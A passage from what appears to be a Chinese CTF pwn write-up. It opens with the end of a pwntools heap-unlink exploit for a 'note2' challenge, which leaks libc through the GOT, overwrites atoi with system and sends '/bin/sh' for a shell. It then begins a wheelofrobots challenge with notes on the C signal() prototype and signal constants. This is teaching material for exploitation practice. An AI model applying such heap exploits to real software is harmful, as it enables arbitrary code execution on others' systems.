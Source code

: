 ```python
fakechunk += p64(0x40)

alloc(0x50,fakechunk) # 0
alloc(0,b'aaaa') # 1
alloc(0x80,b'bbbb') # 2
delete(1)
alloc(0,b'a'*0x10 + p64(0x70) + p64(0x90)) # 1
delete(2)

free_got = note2.got['free']
puts_plt = note2.plt['puts']
puts_got = note2.got['puts']
atoi_got = note2.got['atoi']

edit(0,1,b'a'*0x18+p64(atoi_got))
show(0)

p.recvuntil(b'Content is ')
leak = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = leak-0x036e90
log.success('libc_base ==>> ' + hex(libc_base))

system = libc_base + libc.sym['system']
edit(0,1,p64(system))
p.recvuntil(b'option--->>')
p.sendline(b'/bin/sh\x00')

p.interactive()
```

### 2017_insomni'hack_wheelofrobots
> 题目地址：https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unlink/2017_insomni%27hack_wheelofrobots
> 题目版本：ubuntu16.04 & glibc-2.23

#### 关于signal函数
一个小知识，对做题没有影响
```c
void（* signal（int sig，void（* func）（int）））（int）;
```
1. 分析
这个函数接受两个参数：第一个为int型;第二个为指向一个返回值为void，接受一个int参数的函数指针
这个函数返回值不是void，而是一个指向一个返回值为void，接受一个int参数的函数指针

2. sig -- 在信号处理程序中作为变量使用的信号码。sig宏在signal.h文件中定义，也可以用命令`kill -l`列出所有sig信号
```c
/* ISO C99 signals.  */
#define	SIGINT		2	/* Interactive attention signal.  */
#define	SIGILL		4	/* Illegal instruction.  */
#define	SIGABRT		6	/* Abnormal termination.  */
#define	SIGFPE		8	/* Erroneous arithmetic operation.  */
#define	SIGSEGV		11	/* Invalid access to storage.  */
#define	SIGTERM		15	/* Termination request.  */

/* Historical signals specified by POSIX. */
#define	SIGHUP		1	/* Hangup.  */
#define	SIGQUIT		3	/* Quit.  */
#define	SIGTRAP		5	/* Trace/breakpoint trap.  */
#define	SIGKILL		9	/* Killed.  */
#define SIGBUS		10	/* Bus error.  */
#define	SIGSYS		12	/* Bad system call.  */
#define	SIGPIPE		13	/* Broken pipe.  */
#define	SIGALRM		14	/* Alarm clock.  */

```